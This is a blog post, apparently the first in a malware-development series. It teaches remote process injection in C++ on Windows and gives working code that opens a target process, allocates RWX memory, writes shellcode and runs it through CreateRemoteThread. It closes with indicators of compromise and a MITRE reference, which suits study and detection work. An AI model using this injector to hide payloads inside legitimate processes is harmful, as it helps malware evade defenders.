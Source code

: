 ```yaml
---
title: Remote process injection
published: true
categories: [Malware dev, C++]
tags: [Malware dev, C++, Process injection]

pin: false
image:
  path: https://github.com/Krypteria/Offensive_CPP/assets/55555187/e7d5eef8-559c-4c02-b2a2-eeb0462fa334
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA

---
```


This is the first post of a few that I will be publishing related to malware development (or attempt to) in C++. This series of posts have no pretension, my main goal is to publish my progress in this area as a blog and use them to consolidate my knowledge, if they can also be useful to someone else, good ^^. With all this clarified, this first post will deal with the remote process injection technique.

Remote process injection is one of the oldest injection techniques in existence and although it is not extremely sophisticated (due to the fact that in the past there were no security measures as effective in detecting this type of technique as modern EDRs) it is a good place to start this series to gain knowledge that will be necessary in more complex techniques (as they say in my country, you should not start the house from the roof).

Let's start with the basics, what does the remote process injection technique consist of? 

This technique consists, roughly speaking, of hiding the execution of a set of instructions within a legitimate process, trying to make the execution as unnoticed as possible. For example, let's take the following images:

![sus_binary](https://github.com/Krypteria/Offensive_CPP/assets/55555187/ee424e68-7e58-4271-98d7-e762eb07c417)

In this image we can see a custom binary that opens a cmd.exe process which in turn runs a conhost.exe. At first glance it looks quite suspicious. Now let's look at the next image:

![less_sus_binary](https://github.com/Krypteria/Offensive_CPP/assets/55555187/dd4cec98-eb55-4c3c-b270-7134b4ee8655)

While it is true that we have the same scenario, (a binary running cmd.exe and in turn conhost.exe), this time it is not an ordinary binary, it is an operating system binary, which could raise doubts about its legitimacy.

Now that we have seen the potential of this technique, let's see how we can program it in C++ and what is the logic behind it.

Let's start, the first thing we have to do is to obtain a Handle of the process we want to use. A Handle of a process is nothing more than an identifier that allows us to interact with it, you can see it as the descriptor of a file if we were working with files. 

To obtain this Handle I will make use of the [OpenProcess](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess) function of the Windows API (it is vital to familiarise ourselves with the official Windows documentation as we will spend many hours reading it).

```c++
DWORD pid = atoi(argv[1]);

HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, false, pid);

if (hProcess == NULL){
    printf("%s Cannot get the handle to the process\n", err);
    return EXIT_FAILURE;
}

printf("%s Handle to the process obtained\n", ok);
```

Once we have obtained the Handle, we can start interacting with the process :). 

The next step is to allocate memory in the remote process to host our payload there. To do this, we will use the [VirtualAllocEx](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex) function of the Windows API, another alternative could be the **NtAllocateVirtualMemory** function of the **Undocumented Windows API**. The choice of which function to use in the end will depend on the needs we have.

```c++
unsigned char shellcode[]="Your epic shellcode here";

LPVOID bAddress = VirtualAllocEx(hProcess, NULL, sizeof(shellcode), MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);

if(bAddress == NULL){
    printf("%s Cannot allocate memory for the shellcode\n", err);
    return EXIT_FAILURE;
}

printf("%s Memory allocated succesfully at %p\n", ok, bAddress);
```

The VirtualAllocEx function returns a pointer to the beginning of the memory space we have reserved. We will use this pointer to tell the [WriteProcessMemory](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory) function where we want to write the contents of the shellcode variable. 

```c++
if(WriteProcessMemory(hProcess, bAddress, shellcode, sizeof(shellcode), NULL) == 0){
    printf("%s Cannot write on memory, error %s\n", err, GetLastError());
    return EXIT_FAILURE;
}

printf("%s Memory written succesfully\n", ok);
```

Once we have the shellcode content written in the process memory, the only thing we need to do to execute it is simply to create a Thread that starts its execution at the memory address where the shellcode is hosted. To do this, we will again use the pointer to the memory address returned by VirtualAllocEx and the Handle obtained by OpenProcess in the [CreateRemoteThread](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread) function.

```c++
HANDLE hRemote = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)bAddress, NULL, 0, NULL);

if(hRemote == NULL){
    printf("%s Cannot get the handle to the remote process\n", err);
    return EXIT_FAILURE;
}

printf("%s Remote thread executed succesfully\n", ok);

CloseHandle(hRemote);
CloseHandle(hProcess);

return EXIT_SUCCESS;
```

Once we have completed these steps, we compile the program and we will have an executable capable of performing this technique. The complete code can be found in the [Offensive CPP](https://github.com/Krypteria/Offensive_CPP) repository on my Github

Let's see what the execution of the complete code looks like:
![remote_process_injection](https://github.com/Krypteria/Offensive_CPP/assets/55555187/b9ff587f-b3e8-419b-bcbe-272d2a5b1895)

As you can see in the image, we have managed to inject the shellcode in the process notepad.exe, if we go to the memory address reserved by VirtualAllocEx we can observe several things

- The memory space has been reserved as type **Private: Commit**
- The memory space has **RWX permissions**
- The shellcode has been written correctly ( as a payload created by msfvenom, it is obfuscated).

These three observations already show us some of the problems of this technique in terms of evading modern security measures. Just with what we have discussed in the previous paragraph we can already extract the following IOCs (Indicators of Compromise):

- Memory allocation using win32 API calls
- Creation of a Thread that points to a private memory space
- Private memory space with execution permissions

There are many more IOCs you can find in this post by [Mitre](https://attack.mitre.org/techniques/T1055/)

With all of this, it is fundamental to understand this technique for future sophistications or more advanced techniques that I will publish :)
